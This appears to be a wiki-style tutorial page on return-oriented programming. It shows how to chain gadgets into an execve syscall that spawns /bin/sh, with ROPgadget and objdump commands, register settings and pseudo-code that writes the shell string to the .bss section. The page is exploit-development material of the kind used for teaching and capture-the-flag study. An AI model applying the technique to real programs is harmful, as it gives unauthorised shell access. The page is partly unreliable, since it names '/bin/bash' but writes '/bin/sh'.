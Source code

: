 # ROP - Syscall execv

The objective is to call the **syscall \(execv\)** from a ROP controlling the value of registries: _RDI, RSI, RDX, RAX_ and obviously the _RIP_ \(the other ones doesn't matters\), and controlling somewhere to write _"/bin/sh"_

* **RDI**: Pointing to the string "/bin/bash"
* **RSI**: Null
* **RDX**: Null
* **RAX**: Value **0x3b** for x64 and **0xb** for x32, because this will call **execv**

```bash
ROPgadget --binary vulnbinary | grep syscall
ROPgadget --binary vulnbinary | grep "rdi\|rsi\|rdx\|rax" | grep pop
```

## Writing

If you can somehow write to an address and then get the address of where you have written then this step is unnecessary.

Elsewhere, you may search for some **write-what-where**.  
As is explained in this tutorial: [https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/](https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/) you have to find something that allows you to save some value inside a registry and then save it to some controlled address inside another registry. For example some `pop eax; ret` , `pop edx: ret` , `mov eax, [edx]`

You can find mov gadgets doing: `ROPgadget --binary vulnbinary | grep mov`

### Finding a place to write

If you have found some **write-what-where** and can control the needed registries to call execv, there is only left finding a place to write.

```text
objdump -x vulnbinary | grep ".bss" -B1
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000010  00403418  00403418  00002418  2**3
```

In this case: **0x403418**

### **Writing** _**"/bin/sh"**_

```text
buffer += address(pop_eax) # place value into EAX
buffer += "/bin"           # 4 bytes at a time
buffer += address(pop_edx)         # place value into edx
buffer += address(writable_memory)
buffer += address(writewhatwhere)

buffer += address(pop_eax)
buffer += "//sh"
buffer += address(pop_edx)
buffer += address(writable_memory + 4)
buffer += address(writewhatwhere)
```

